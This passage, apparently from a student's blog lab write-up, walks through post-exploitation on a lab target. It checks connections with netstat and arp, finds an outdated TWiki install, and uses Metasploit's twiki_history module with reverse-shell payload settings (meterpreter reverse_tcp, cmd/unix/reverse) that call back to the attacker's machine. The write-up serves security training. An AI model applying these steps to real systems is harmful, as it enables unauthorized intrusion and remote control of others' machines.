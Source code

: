 Inside the target machine I can use the new meterpreter session to run ```netstat``` to see any network connections the target machine has. In this case, it only finds things relating to the target machine and our Kali machine. 

![Netstat](/tuukkaani-blog/img/h2/netstat.png)

Next I use ```arp``` to check the ARP cache for recent connections to the machine. The sole connection right now is the Kali machine, but it could be other machines in the target's network.

![ARP](/tuukkaani-blog/img/h2/arp.png)

---

### j) Checking other possible avenues of attack on the target machine

I CTRL+z the meterpreter session for now and return to the msfconsole. I use ```services``` and check which services I'll try first. After some thinking I decide to go check the website and see what we have. I go through all the links listed and see few login pages and other interesting stuff. I decide to start with the first link TWiki.

#### TWiki

After opening twiki I am greeted with the following page:

![Twiki front page](/tuukkaani-blog/img/h2/twiki.png)

There is a readme file which could be useful. I decide to take a quick look, maybe it has something interesting inside. Surely enough, we can find the version the server is running:

![Twiki readme](/tuukkaani-blog/img/h2/twiki_version.png)

Next up, I use msfconsole's ```search twiki``` to see if there are anything that we can use for seemingly very out of date service. We get few hits:

![Twiki exploits](/tuukkaani-blog/img/h2/twiki_exploits.png)

I decide to start testing them out. Firstly the one from 2004 *unix/webapp/twiki_search*. After trying few of the payloads, I couldn't get any established connection back home.

Next I tried the exploit from 2005 *unix/webapp/twiki_history*. Once again I had to try couple of times, but I got a successful connection with ```set payload cmd/unix/php/meterpreter/reverse_tcp```. I also had some success with ```set payload cmd/unix/reverse``` and then upgraded the session to meterpreter with ```sessions -u 'session id'```.

![Twiki win](/tuukkaani-blog/img/h2/twiki_win.png)

---

### k) Testing out meterpreter's functionality

With the newly established connection to the target machine, I think it is appropriate to test some of the functionality it brings. Just typing ```help``` gives us some commands to use.
